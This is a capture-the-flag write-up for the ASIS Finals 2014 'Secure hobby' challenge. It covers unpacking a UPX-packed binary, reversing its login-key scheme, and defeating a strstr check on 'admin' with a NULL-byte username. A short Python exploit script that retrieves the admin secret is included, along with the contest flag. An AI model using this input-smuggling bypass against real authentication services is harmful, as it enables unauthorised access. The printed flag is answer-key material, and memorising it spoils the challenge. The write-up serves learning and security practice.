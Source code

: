 # ASIS Cyber Security Contest Finals 2014: Secure hobby

**Category:** Pwn
**Points:** 250
**Description:**

> [File](hobby_8524ad2ae5fde9a43d7e6b1956c8099b) is running here:
>
> ```bash
> nc asis-ctf.ir 12439
> ```

## Write-up

Let’s see what [the provided file](hobby_8524ad2ae5fde9a43d7e6b1956c8099b) could be:

```bash
$ file hobby_8524ad2ae5fde9a43d7e6b1956c8099b
hobby_8524ad2ae5fde9a43d7e6b1956c8099b: xz compressed data
```

So, we extract the file using the built-in `xz` or `unxz` commands:

* `xz -dc < hobby_8524ad2ae5fde9a43d7e6b1956c8099b > hobby`
* `unxz < hobby_8524ad2ae5fde9a43d7e6b1956c8099b > hobby`

Alternatively, extract the provided file using [p7zip](http://p7zip.sourceforge.net/):

```bash
7z x hobby_8524ad2ae5fde9a43d7e6b1956c8099b
```

Let’s find out what the extracted file is:

```bash
$ file hobby
hobby: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, stripped
```

## The Challenge

Let's connect to the service to see what we're dealing with

```bash
$ nc asis-ctf.ir 12439
-------------------------------------------------
| 	Welcome to Super Secure Auth Engine	|
-------------------------------------------------

1) Register
2) Login check
3) Show my secret

Enjoy ;)
1
Enter username: admin
Kidding Me? :(
```

So we cannot register the username `admin`. Registering other usernames does work, in which case we are given a key.

```bash
Enter username: hacknamstyle
Your key for login is: 6147466a6132356862584e306557786c95a6d58cd2be3f87ff4a27e51afaff87
```

This key can then be given as input to option two or three:

```bash
2
Enter key: 6147466a6132356862584e306557786c95a6d58cd2be3f87ff4a27e51afaff87
OK
User hacknamstyle authenticated

[..]

3
Enter key: 6147466a6132356862584e306557786c95a6d58cd2be3f87ff4a27e51afaff87
You don't have any secret! :(
```

From the output of option two we notice that the key somehow encodes the username (and probably some secret authentication code). It's likely that the secret associated with the `admin` username contains the flag. Let's load the binary in IDA to see whether we can calculate the key for `admin` ourselves. We notice that the code appears obfuscated and/or that the executable is packed (IDA detected few functions and the executable is not importing many API functions). Running `strings` on the executable reveals that it's packed with UPX.

```bash
$ strings hobby | grep -i upx
UPX!
$Info: This file is packed with the UPX executable packer http://upx.sf.net $
$Id: UPX 3.08 Copyright (C) 1996-2011 the UPX Team. All Rights Reserved. $
UPX!u
UPX!
UPX!
```

We can easily unpack this using [public UPX tools](http://upx.sourceforge.net/). Now we get a normal looking executable in IDA.

After some reversing, we have that the program reads the file `namak` on start-up, and saves the content to a global variable. When calculating the key for a user, this secret data appears to be used. Hence, since we don't know the content of the file, it appears we cannot calculate a valid key ourselves. However, while reversing the key generation algorithm, we notice that `strstr` is being used to check whether the username contains the string `admin`. Is it possible to bypass this check by including a leading NULL byte in the username? The answer is yes! Hence we get the key of the admin by using the username `\x00admin`. This key can then be used to read the secret of the admin (which is of course the flag):

```python
from netcatlib import *

# Get the key for admin
nc = Netcat('asis-ctf.ir', 12439)
nc.write("1\n")
nc.read_until("Enter username: ")
nc.write("\x00admin")
nc.read_until("Your key for login is: ")
key = nc.read_until("\n")
print "[+] Key for admin is", key,

# Get the secret of admin
nc = Netcat('asis-ctf.ir', 12439)
nc.write("3\n")
nc.read_until("Enter key: ")
nc.write(key)
nc.read_until("The flag is: ")
print "[+] Secret of admin:", nc.read_all()
```

The output of the script is:

```python
[+] Key for admin is 4147466b62576c7503812bbd45e23c059a0eab18e936b7ed
[+] Secret of admin: ASIS_65cc76f02093977bfd7629086e813666
```

## Other write-ups and resources

* [Alternative Exploit in Python](http://pastebin.com/b2QVFK2U)
* [French](https://t0x0sh.org/asis-ctf-finals-hobby-pownable-250.html)
